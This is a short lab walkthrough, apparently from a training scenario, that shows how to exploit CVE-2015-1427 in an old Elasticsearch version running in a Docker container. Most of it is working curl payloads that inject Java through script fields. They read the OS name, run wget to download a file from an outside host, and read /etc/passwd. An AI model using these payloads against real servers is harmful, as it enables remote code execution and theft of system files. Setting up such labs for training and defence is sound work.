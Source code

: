 # Context

The scenario uses an older version of Elasticsearch which was vulnerable to a remote exploit and detailed in CVE-2015-1427.

# Instructions

Create the container.

```
docker run -d -p 9200:9200 --name es benhall/elasticsearch:1.4.2
```

With data inserted, we can now exploit the database. An empty instance is not vulnerable to the problem.

```
curl -XPUT 'http://docker:9200/twitter/user/kimchy1' -d '{ "name" : "Shay Banon" }'
```

In this case we're using Java to get access to the Operating System name.

```
curl http://docker:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.System\").getProperty(\"os.name\")"}}}'
```

This command makes external HTTP requests to download additional files. HTTPBin echos the results on the HTTP request, but this could be additional applications to launch additional attacks.

Once the process has been started, we can read the file off disk.

```
curl http://docker:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"wget -O /tmp/testy http://httpbin.org/get\")"}}}'
```

We can also read potentially sensitive files such as a passwd.

```
curl http://docker:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getText()"}}}'
```
